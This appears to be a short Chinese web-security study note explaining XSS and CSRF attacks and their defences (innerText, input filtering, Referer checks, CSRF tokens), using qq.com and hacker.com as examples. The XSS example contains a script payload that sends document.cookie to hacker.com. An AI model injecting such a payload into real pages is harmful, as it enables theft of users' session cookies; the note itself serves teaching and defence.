 1. 什么是XSS攻击？如何预防？
- 举例：
```
div.innerHTML = userComment  //userComment内容是<script>$.get('http://hacker.com?cookie=' + document.cookie)</script>
```
这种情况下恶意就被执行了
- 预防
    i.不要用innerHTML，用innerText，script就会被当成文本，不执行
    ii.如果一定要用innerHTML，那么要使用字符过滤
2. 什么是CSRF攻击？如何预防？
a.用户在qq.com登陆
b.用户切换到了hacker.com（恶意网站）
c.hacker.com发送一个qq.com/add-friend请求，让当前用户添加hacker为好友
d.用户在不知不觉中添加了hacker为好友
e.用户本身并没有想要发送这个请求，但hacker伪造了用户发请求的假象
- 预防：

i.检查refer.qq.com可以拒绝来自hacker.com的请求
ii.csrf-token 可以解决